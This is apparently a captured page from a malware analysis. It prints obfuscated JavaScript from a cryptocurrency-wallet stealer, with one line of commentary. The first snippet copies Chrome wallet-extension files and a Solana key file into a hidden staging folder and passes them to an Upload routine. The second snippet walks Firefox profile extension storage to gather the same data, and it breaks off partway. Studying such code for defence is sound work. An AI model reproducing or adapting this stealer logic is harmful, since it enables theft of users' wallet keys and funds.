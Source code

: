 ```javascript
                });
              } else {
                fs_promises.copyFile(_0x373cf5, getAbsolutePath('~/') + "/.n3/tp" + _0x5c4fb2);
                const _0x12545b = {
                  filename: "81_" + _0x59e0fb + _0x237834 + '_' + wallet_extension_chrome[_0x329bbe] + '_' + _0x3ceb01
                };
                _0x242ba7.push({
                  'value': fs.createReadStream(getAbsolutePath('~/') + '/.n3/tp' + _0x5c4fb2),
                  'options': _0x12545b
                });
                _0x5c4fb2 += 1;
              }
            } catch (_0x4d4966) {}
          });
        }
      }
    }
    if (_0x3bbc1d && (_0x3a0672 = homeDir + "x21`SAWqa", fs.existsSync(_0x3a0672))) {
      try {
        const _0x40c2e1 = {
          filename: "solana_id.txt"
        };
        _0x242ba7.push({
          'value': fs.createReadStream(_0x3a0672),
          'options': _0x40c2e1
        });
      } catch (_0x3fa9a8) {}
    }
    Upload(_0x242ba7, _0x13dfc4);
    return _0x242ba7;
  };
```
<hr style="border: none; border-top: 1px solid #ccc;">

And, they do same thing with the Mozzila browser:
```javascript
const uploadMozilla = _0x4d5c28 => {
    const _0x2e7846 = getAbsolutePath('~/') + "/AppData/Roaming/Mozilla/Firefox/Profiles";
    let _0x5d04e2 = [];
    if (testPath(_0x2e7846)) {
      let _0x2f84de = [];
      try {
        _0x2f84de = fs.readdirSync(_0x2e7846);
      } catch (_0x43e661) {
        _0x2f84de = [];
      }
      let _0x362ae2 = 0;
      _0x2f84de.forEach(async _0x402e78 => {
        let _0x481faf = path.join(_0x2e7846, _0x402e78);
        if (_0x481faf.includes('-release')) {
          let _0x33b30c = path.join(_0x481faf, "/storage/default");
          let _0x3bc9bd = [];
          _0x3bc9bd = fs.readdirSync(_0x33b30c);
          let _0x24f229 = 0;
          _0x3bc9bd.forEach(async _0x160d67 => {
            if (_0x160d67.includes("moz-extension")) {
              let _0x41a5c4 = path.join(_0x33b30c, _0x160d67);
              _0x41a5c4 = path.join(_0x41a5c4, 'idb');
              let _0x3be0c3 = [];
              _0x3be0c3 = fs.readdirSync(_0x41a5c4);
              _0x3be0c3.forEach(async _0x94e90b => {
                if (_0x94e90b.includes('.files')) {
                  let _0x13f160 = path.join(_0x41a5c4, _0x94e90b);
```